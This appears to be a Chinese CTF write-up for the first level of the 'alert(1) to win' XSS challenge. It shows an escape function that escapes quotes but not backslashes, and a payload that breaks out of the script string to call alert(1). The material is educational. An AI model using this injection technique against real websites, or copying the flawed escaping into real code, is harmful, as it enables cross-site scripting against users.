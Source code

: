 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 01 - Warmup](https://alf.nu/alert1)] [[解题报告](http://exp-blog.com/2019/05/30/pid-3868/)]

------

## 题目

```javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

------

## 解题报告

由于所有 `"` 都被转义为 `\"` ，导致无法直接闭合函数。

但是不能直接闭合，不等于无法闭合。

因为只是转义了双引号 `"` ，没有转义反斜杠 `\` ，那么我们只需要再输入一个反斜杠去吃掉转义双引号的反斜杠，那么双引号就得以保留，并用来闭合函数了。

于是可以构造 payload 如下 （此处没有闭合后半段的双引号，而是通过行注释 `//` 屏蔽掉）：

```javascript
\");alert(1);//
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/alert/Level%2002%20-%20Adobe/imgs/01.png)


------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
